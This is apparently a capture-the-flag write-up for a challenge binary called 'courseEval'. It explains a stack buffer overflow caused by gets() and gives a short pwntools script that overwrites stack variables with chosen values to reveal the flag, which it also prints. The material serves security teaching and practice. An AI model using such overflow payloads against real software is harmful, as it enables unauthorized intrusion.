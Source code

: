 # 🔑 Write-Up

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 50 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

context.binary = "./courseEval"
p = process()
p.sendline(b"A" * 56 + b"UniPD_01" + b"CPP-" + b"PWN-" + b"Pier")

log.success(p.recvline_regex(rb"SPRITZ{.*}").decode("ascii"))

```

### 🚩 Flag 

```plain
SPRITZ{CPP_PWNs_Everything_173453}
```